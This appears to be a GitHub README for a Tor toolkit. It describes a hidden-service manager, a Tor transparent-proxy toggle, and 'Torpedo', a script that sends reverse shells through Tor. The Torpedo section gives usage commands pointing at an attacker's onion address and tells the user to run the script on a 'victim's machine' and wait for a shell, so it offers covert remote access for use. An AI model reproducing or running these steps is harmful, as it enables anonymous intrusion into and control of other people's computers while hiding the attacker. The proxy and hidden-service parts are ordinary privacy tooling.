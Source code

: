 Well this is just an tor related's tool kit. I pretend to collect some interesting tools for privacity and anonymity purposes.
I pretend to include here:
- TorHost: An simple script that I made for manage ephemeral hidden services (mainly for listener purposes, but u can do whatever u want with it).
- Torete: An script to manage tor connections.
- Torpedo: Reverse shells over Tor.

# Torhost.sh
Is an easy way to create and manage ephemeral hidden services for do whatever u want to do. It's mainly thinked for listener purposes but you know.
By default it uses port 80. Can be upgraded to establish TLS conecction but is not my priority right now. Tested on Debian based systems (Kali, Debian, Parrot) but might work in systemd based systems.

### Options
- install - Torhost will check if u have an hidden service set up on /etc/tor/torrc, if not, it will set up for you.
- start - Start your hidden service.
- stop - Stop your hidden service.
- change - Change hidden service hostname's and print the new one.
- check - Check the hostname of your hidden service.
- listen - Bind hidden service port to netcat local port.

#### Usage/Examples

```bash
sudo bash torhost.sh install
sudo bash torhost.sh check
```

![App Screenshot](https://user-images.githubusercontent.com/124470922/216985174-c1696384-2a18-41d9-8df8-29ae31043c8c.png)



# Torete
Torete is a simple script for manage your tor conecction, via transparent proxy generated by torsocks, this script must be run as root (not sudo).
This script has been tested on Debian, Kali, and Parrot, but can work on other systems.

### Options
- on - Enable torete's tor proxy.
- off - Disable torete's tor proxy.
- change - Change your tor relay to avoid IP ban, or whatever...

#### Usage/Examples

```bash
. torete on
. torete off
. torete change
```

![image](https://github.com/el10tt/tor-tools/assets/124470922/936ab6cc-089e-48c5-935f-7ac67b4f14da)



# Torpedo.sh
Is an easy way to launch reverse shells over Tor, just download tor portable version, execute its, and trhow reverse shell trough tor proxy.
It can be executed without root privileges, Its a nice one since there aren't so much reverse shells over Tor on the Internet.

#### Usage/Examples

First of all you need a hidden service (in attacker machine) to receive the reverse shell, you can manage this hidden service with torhost.sh.
You need to bind the hidden service with the listener local port, you can do it with torhost.sh aswell.
When you got listener ready, just execute torpedo.sh in victim's machine, and just wait for your shell.
You can hardcode hidden service parameters in the script body or you can enter'them as parameter

```bash
. bash torpedo.sh
. bash torpedo.sh onionhiddenservice.onion 80
```

#### Listener

![image](https://github.com/el10tt/tor-tools/assets/124470922/3883d085-2ff6-4196-aaa3-a12647f030a9)

#### Torpedo (victim machine)

![image](https://github.com/el10tt/tor-tools/assets/124470922/c47e5b87-9fd4-4363-b2de-78681d264160)
![image](https://github.com/el10tt/tor-tools/assets/124470922/dfb8cbf0-d0a4-484a-bdc5-87e38ddc1330)







